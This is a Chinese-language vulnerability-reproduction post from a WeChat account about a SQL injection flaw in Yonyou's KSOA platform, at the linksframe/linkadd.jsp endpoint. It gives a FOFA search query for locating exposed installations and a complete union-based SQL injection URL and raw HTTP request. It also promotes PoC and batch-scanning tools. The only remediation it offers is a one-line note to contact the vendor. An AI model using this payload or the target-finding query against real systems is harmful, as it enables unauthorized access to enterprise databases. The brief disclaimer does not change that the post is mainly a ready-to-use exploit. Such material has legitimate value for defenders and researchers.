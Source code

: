 #  用友时空KSOA linksframe/linkadd.jsp接口存在SQL注入漏洞   
南风徐来  南风漏洞复现文库   2024-05-06 22:56  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 用友时空KSOA简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
用友时空KSOA是一款专业的企业应用集成平台，可整合企业各种信息系统和业务系统，帮助企业快速了解业务状态和动态。 通过用友时空KSOA，企业可以通过自定义关键业务指标，实时监控各系统和业务状态，并通过分析工具优化业务管理和决策支持模式。 功能： 包括应用整合、业务集成、数据共享、流程自动化等。 价值： 用友时空KSOA可以帮助企业提升业务管理效率，快速响应客户需求，防范风险，提高决策质量和企业竞争力。  
## 2.漏洞描述  
  
用友时空KSOA是一款专业的企业应用集成平台，可整合企业各种信息系统和业务系统，帮助企业快速了解业务状态和动态。 通过用友时空KSOA，企业可以通过自定义关键业务指标，实时监控各系统和业务状态，并通过分析工具优化业务管理和决策支持模式。 功能： 包括应用整合、业务集成、数据共享、流程自动化等。 价值： 用友时空KSOA可以帮助企业提升业务管理效率，快速响应客户需求，防范风险，提高决策质量和企业竞争力。用友时空KSOA linksframe/linkadd.jsp接口存在SQL注入漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
用友时空KSOA  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlAc5O83cPrJ5hQhZ7pkYhAH5LTvrF341FxlDqfic3wgyXmo0ubePzPaQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
用友时空KSOA linksframe/linkadd.jsp接口存在SQL注入漏洞  
## 4.fofa查询语句  
  
app="用友-时空KSOA"  
## 5.漏洞复现  
  
漏洞链接：http://xxx.xxx.xxx.xxx/linksframe/linkadd.jsp?id=666666%27+union+all+select+null%2Cnull%2Csys.fn_sqlvarbasetostr%28HashBytes%28%27MD5%27%2C%271%27%29%29%2Cnull%2Cnull%2C%27  
  
漏洞数据包：  
```
GET /linksframe/linkadd.jsp?id=666666%27+union+all+select+null%2Cnull%2Csys.fn_sqlvarbasetostr%28HashBytes%28%27MD5%27%2C%271%27%29%29%2Cnull%2Cnull%2C%27 HTTP/1.1
Host: xx.xxx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlyxvHE8foIk1Kk4ZTiahrNsOZnoGzocXkPJUdRp7psqTOWHCsBiaLiazLw/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现130 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlyrLvpEc8ksHRDYgdVOEBOAaP7vRL43ic5Fwf3xmcjxxajzJVALXFlibw/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlwHmiaJpzdTaybWDQvZiaBdM5AeAZvhZs1o8ngq6W7k9kHNCSwGyjricUQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDl69fzkiaOGD3Vibc3CnDIcXVIbcaTC1dpPX7icPFJNBFibiatTbaAwicDg3jA/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlqib6QC8F3ZecJEjnVAdXfU0qScicHyXcW3xMiaTDF2GLRXzyvFaW9IReg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlYJYtWBzibmrnyrj8zIX5iamiaicibZroibal7XdJKzNY3iadsacPFibp64F30A/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDlWNUukv525HUEl2VlibFicqbaptr9jlQ3GkFNItnHlzsKlib6cswTFRppQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YVuPeMiaoe2TBMZwMspNUDle7z227KlYesibGXDdogkic4aVhmeLLOXIa4YXPznBPHJrPVFYx5zewPA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请联系厂商更新补丁  
## 8.往期回顾  
  
  
[用友crm客户关系管理pub/downloadfile.php接口存在任意文件读取漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486384&idx=1&sn=6cded6c301c425146633b7c8e92b9ae2&chksm=974b86b7a03c0fa1f00ab48f05f1a7521aafbcf878188a0eee618c2e26d9614d282cd1ff7a58&scene=21#wechat_redirect)  
  
  
[用友政务财务系统FileDownload接口存在任意文件读取漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486371&idx=1&sn=8ea4470a40d2100d18aecb3a4abcff6c&chksm=974b86a4a03c0fb2dad3b970bae511a25e02796d939379b41cee9a8372a421337989e1d432ef&scene=21#wechat_redirect)  
  
  
